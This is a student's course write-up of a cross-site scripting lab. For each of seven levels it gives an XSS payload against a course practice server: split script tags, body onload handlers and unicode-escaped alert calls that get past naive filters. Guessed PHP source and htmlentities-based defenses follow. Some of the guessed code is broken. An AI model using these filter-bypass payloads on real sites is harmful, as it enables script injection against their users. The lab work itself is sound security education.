# waph-sanipidr
  WAPH-Web Application Programming and hacking

## **Instructor** : Dr.Phu Phung 


**Name**: DILIP KUMAR SANIPINA

**Email** : sanipidr@mail.uc.edu

**Short-bio** : I have very interested in web programming and ethical hacking .


 


## Hackathon Overview:
- In the hackathon 1, I learned about keeping websites safe from attacks like cross-site scripting (XSS), which are common and can cause big problems. We discussed about the OWASP Top Vulnerabilities, which are like a list of the most important things to watch out for. One big thing is making sure any information people put into a website is checked carefully, so bad stuff can't get in. And when the website shows information back to people, it needs to be done in a safe way, so bad code can't sneak in. We looked at real examples of what can go wrong when websites aren't protected well, which showed me why it's so important to take security seriously.

## Respository Information

Respository's URL: [https://github.com/sanipidr/waph-sanipidr/tree/main/Hackathon1]( https://github.com/sanipidr/waph-sanipidr/tree/main/Hackathon1)

## Hackathon-1: Cross-Site Scripting Attacks and Defenses
# Task 1: Attack

**Level-0**
- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level0/echo.php

-Attacking Script:
<script>alert('Level-0 Hacked by Dilip Kumar Sanipina')</script>



**Level-1**
- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level1/echo.php

-Attacking Script:
   ?input=<script>alert('Level-1 Hacked by Dilip Kumar Sanipina')</script>




**Level-2**
- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php

- The website's HTTP request doesn't include input fields or path variables. Instead, it's connected to a simple HTML form. This form lets people submit offensive scripts directly, which opens the door for injecting harmful code into the website.

-Attacking Script:
	?input= <script>alert('Level-2 Hacked by Dilip Kumar Sanipina')</script>

Guess Source Code:
- source code: `Guessing source code `

	 if (!isset($_POST['input'])){
	            die("{\"error\": \"please provide the 'input' field in a Http POST Request\"}"");
	        }      
	 echo $_POST['input'];




**Level-3**

- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level3/echo.php
- At level-3, the web application filters out the <Script> tag that's directly entered through the input.However, attackers can still break their harmful code into smaller parts to bypass this filter and successfully carry out an XSS attack.

-Attacking Script:
   ?input= <scr<script>ipt>alert('Level-3 Hacked by Dilip Kumar Sanipina')</scr</script>ipt>
Guess Source Code:
- source code: `Guessing source code `

	$input = echo $_POST['input'];
	$input=str_replace(['<script>', '</Script>'], '',$input)
   


**Level-4**

- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level/echo.php
- At level-4 filtering, direct <script> tags are blocked. Instead, attackers exploit the onload() function of the body tag to execute XSS scripts. They combine their script with this function, triggering malicious actions once the page finishes loading. This bypasses filtering and underscores the need for robust security practices to mitigate XSS vulnerabilities effectively.

-Attacking Script:
   ?input= <body onload="alert('Level-4 Hacked by Dilip Kumar Sanipina')">hacked</body>

Guess Source Code:
- source code: `Guessing source code `

	$input =  $_GET['input']
		if (preg_match('/<script\b[^>]*>(.*?')<\/script>/is',$input)) {
			exit('{"error": "No \'script\' is Allowed!"}');
		}
		else
			echo($input);
   



**Level-5**

- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level5/echo.php
- At level-5 security, both the <script> tag and the alert() function are filtered out to prevent XSS attacks. To overcome these restrictions and still trigger a popup alert, attackers use a clever combination of encoding techniques and the onload() method with the body tag. This indirect approach allows them to execute JavaScript code despite the filters in place, highlighting the need for robust security measures to counter such tactics effectively.

-Attacking Script:
   ?input= <body onload="\u0061lert('Level-5 Hacked by Dilip Kumar Sanipina')">hacked</body>

- Guess Source Code:
- source code: Guessing source code

   $input =  $_GET['input']
		if (preg_match('/<script\b[^>]*>(.*?')<\/script>/is',$data) || stripos($data 'alert')!== false) {
			exit('{"error": "No \'script\' is allowed!"}');
		}
		else
			echo($input);




**Level-6**

- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level6/echo.php
- In Level-6, the approach involves using htmlentities() to transform user input into HTML entities, making it display as plain text on the webpage. However, JavaScript event listeners such as onclick() are set up to detect key presses within the input field. This setup allows for the execution of JavaScript code, including triggering alerts, while still keeping the user input safely displayed as text. This strategy ensures security by preventing direct execution of JavaScript code from user input while enabling desired interactivity through event listeners.

Attacking Script:
   ?input= <body onload="\u0061lert('Level-6 Hacked by Dilip Kumar Sanipina')">hacked</body>

Guess Source Code:
- source code: Guessing source code

   echo htmlentities($_REQUEST('input'))  ;







## Task 2 -Defense

**echo.php**
- In the echo.php file in lab2, I've implemented input validation. Now, if you try to submit a request without providing any input, the system will prompt you with an alert asking you to enter data into the input field. This validation ensures that users cannot submit empty requests and encourages them to provide the necessary input for the operation to proceed smoothly.

source code:

```
<?php
        
        if (!isset($_REQUEST["data"])){
                #echo "Error: 'data' parameter is missing.";
                die("{\"error\": \"please provide 'data' field\"}");
        }
        echo htmlentities($_REQUEST['data']);
?>

```






**Current front end prototype**

- In this code, we've implemented input validation to ensure that both the GET and POST method forms include mandatory input. If a user tries to submit the form without providing any input, the system will prompt a message saying "Please give some input." This ensures that users cannot proceed without entering necessary data, maintaining the functionality and integrity of the system.





- Following the input validation, I've implemented output encoding by defining an "encode text" function. This function encodes the output before printing it to the screen. Additionally, we display both the encoded and decoded messages. To ensure ongoing validation, I've added console alerts every time a user submits a request. This approach enhances security by encoding output to prevent XSS attacks and provides real-time validation feedback through console alerts.



